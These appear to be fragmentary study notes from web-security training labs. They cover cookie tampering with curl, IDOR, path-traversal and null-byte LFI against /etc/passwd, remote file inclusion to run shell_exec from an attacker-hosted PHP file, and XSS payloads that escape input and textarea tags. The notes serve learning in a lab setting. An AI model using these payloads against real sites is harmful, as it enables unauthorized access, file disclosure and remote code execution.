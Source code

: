 cookie tampering

curl

We can see we are returned a message of: Not Logged In

curl -H "Cookie: logged_in=true; admin=false"

We are given the message: Logged In As A User

curl -H "Cookie: logged_in=true; admin=true"

This returns the result: Logged In As An Admin

Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/

This string base64 decoded has the value of {"id":1,"admin": false}

IDOR

cookie tampering

curl

We can see we are returned a message of: Not Logged In

FILE CONLUSION

10.10.86.86/lab4.php?file=../../../../etc/passwd

bypass filter keyword using null byte:

10.10.86.86/lab4.php?file=/etc/passwd%00

10.10.86.86/lab4.php?file=/etc/passwd/.

bypass filter php with base64,rot13 encode:

user@machine$ echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==

If Access Denied! Allowed files at THM-profile folder only!

LFI to rce:

host.php : <?php echo shell_exec('hostname'); ?>

10.10.133.77/playground.php?file=http://10.17.30.3/host.php

XSS

LEVEL 1 : You just need to alert() the keyword THM :

<script>alert('THM');</script>

LEVEL 2 : You need to escape <h2>Hello, <input value="johny"></h2>

"><script>alert('THM');</script>

LEVEL 3 : You need to escape <h2>Hello, <textarea>meee</textarea></h2>

</textarea><script>alert('THM');</script>

LEVEL 4 : You need to escape a call from a script document.getElementsByClassName('name')[0].innerHTML='hey you';
